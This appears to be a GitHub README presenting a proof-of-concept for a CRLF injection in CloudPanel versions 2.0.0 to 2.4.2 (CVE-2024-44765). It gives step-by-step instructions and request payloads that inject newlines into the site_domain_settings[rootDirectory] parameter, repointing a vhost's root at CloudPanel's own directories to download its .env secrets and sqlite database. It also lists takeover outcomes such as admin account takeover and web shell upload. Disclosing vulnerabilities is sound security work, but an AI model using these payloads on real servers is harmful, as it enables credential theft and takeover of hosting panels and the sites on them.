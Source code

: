 # Proof of Concept (PoC) for Cloudpanel [CRLF Injection / CVE-2024-44765]

## 📖 Introduction
> A CRLF injection vulnerability in MGT-COMMERCE GmbH CloudPanel v2.0.0 to v2.4.2 allows low privilege attackers to escalate privileges and access sensitive information via manipulation of the Nginx configuration file.
> <br> [!] Low Privilege user also could directly modify its vhost configuration to retrieve sensitive data. [!]

---

## 🔍 Overview

- **Researcher:** [Your Name](https://github.com/EagleTube)
- **CVE ID:** CVE-2024-44765
- **Vulnerability Type:** CRLF Injection
- **Affected Products:** v2.0.0 - 2.4.2
- **Severity:** High
- **Fix Available:** No

---

## 🛠️ Technical Details

A detailed technical description of the vulnerability, including:
- The root cause of this issue when user are not restrict modifying vhost nginx configuration
- The vulnerability occur when attacker which have low privilege manipulate the nginx configuration by change its document root to main cloudpanel document root
- After change the root folder in nginx configuration , attacker could download .env and .sq3 sqlite file in main clp directory

## 🚨Post Exploitation
- Data Breach
- Admin Account Take Over
- Secret Key Exposure
- Web Shell upload
- Privilege Escalation

### Vulnerability Documentation:

- This vulnerability require at least lower privileges in cloudpanel, follow this step to achieve the CRLF injection

1. **Step 1**: Access the cloudpanel with your user:
    ```plaintext
    http://example.com/vulnerable_endpoint?param=
    ```
2. **Step 2**: Click manage and check Root Directory input:
    ```plaintext
    %0d%0aInjected-Header: InjectedValue
    ```
3. **Step 3**: Click save and intercept the request via burp suite:
    ```plaintext
    http://example.com/vulnerable_endpoint?param=value%0d%0aInjected-Header: InjectedValue
    ```
4.1 **Step 4.1**: (leak secret token) From the site_domain_settings[rootDirectory] parameter query put payload like below.
    ```plaintext
    site_domain_settings[rootDirectory]=pentest.my%0a%0droot%0a/home/clp/htdocs/app/files
    ```
4.2 **Step 5**: (leak sqlite db) From the site_domain_settings[rootDirectory] parameter query put payload like below.
    ```plaintext
    site_domain_settings[rootDirectory]=pentest.my%0a%0droot%0a/home/clp/htdocs/app/data
    ```
